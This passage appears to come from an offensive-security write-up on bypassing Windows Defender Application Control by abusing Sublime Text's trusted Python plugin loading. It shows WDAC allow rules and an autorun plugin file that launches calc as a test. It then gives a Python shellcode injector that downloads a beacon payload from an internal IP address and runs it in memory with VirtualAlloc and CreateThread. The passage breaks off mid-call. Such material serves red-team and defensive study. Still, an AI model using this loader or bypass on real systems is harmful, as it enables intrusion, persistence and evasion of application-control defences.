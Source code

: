 Fallback **Hash** rules for `python38.dll` like this:
```xml
  <FileRules>
    <Allow ID="ID_ALLOW_A_D" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Sha1" Hash="07F2BD05F877852F5AA016487CB0B23D7F0F0947" />
    <Allow ID="ID_ALLOW_A_E" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Sha256" Hash="FB046BF518AA8C1CCEE19483AE35F41C7A235AF6358FAD3736FF7EFE5C63DE56" />
    <Allow ID="ID_ALLOW_A_F" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Page Sha1" Hash="203F80E93E6BFD4BB4046A0FE03332348BCC7241" />
    <Allow ID="ID_ALLOW_A_10" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Page Sha256" Hash="024CE702ACD7F513513F68B569C7BD5E8CC47B78401E2186B75D14B56955B96E" />
  </FileRules>
```

And a fallback **FilePath** rule for `python38.dll` like this:
```xml
<FileRules>
  <Allow ID="ID_ALLOW_A_14" FriendlyName="C:\Program Files\Sublime Text\python38.dll FileRule" MinimumFileVersion="0.0.0.0" FilePath="C:\Program Files\Sublime Text\python38.dll" />
</FileRules>
```

It's therefore critical to understand WDAC rules well to find wiggle-room.

Take the following Python code and save it under `%AppData%\Sublime Text\Packages\calc.py`.
```python
import subprocess
subprocess.call('C:\\Windows\\System32\\calc.exe')
```

Now, the calculator will open each time Sublime is launched.  It's that simple.  However, this isn't bypassing WDAC because calc.exe is trusted (signed by Microsoft) - it just demonstrates that the plugin is working.  Instead of calling a binary on disk, we can use a Python shellcode injector such as [this example](https://gist.github.com/peewpw/8054a64eb4b5cd007a8431a71d698dc3) by [Barrett Adams](https://twitter.com/peewpw).
```python
import ctypes
import requests

url = 'http://10.10.5.39/beacon.bin'
r = requests.get(url, stream=True, verify=False)
scbytes = r.content

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
ctypes.windll.kernel32.CreateThread.argtypes = (ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int))

mem = ctypes.windll.kernel32.VirtualAlloc(
	ctypes.c_int(0),
	ctypes.c_int(len(scbytes)),
	ctypes.c_int(0x3000),
	ctypes.c_int(0x40)
	)

buf = (ctypes.c_char * len(scbytes)).from_buffer_copy(scbytes)

ctypes.windll.kernel32.RtlMoveMemory(
	ctypes.c_void_p(mem),
	buf,
	ctypes.c_int(len(scbytes))
	)

handle = ctypes.windll.kernel32.CreateThread(
	ctypes.c_int(0),
	ctypes.c_int(0),
	ctypes.c_void_p(mem),
	ctypes.c_int(0),
```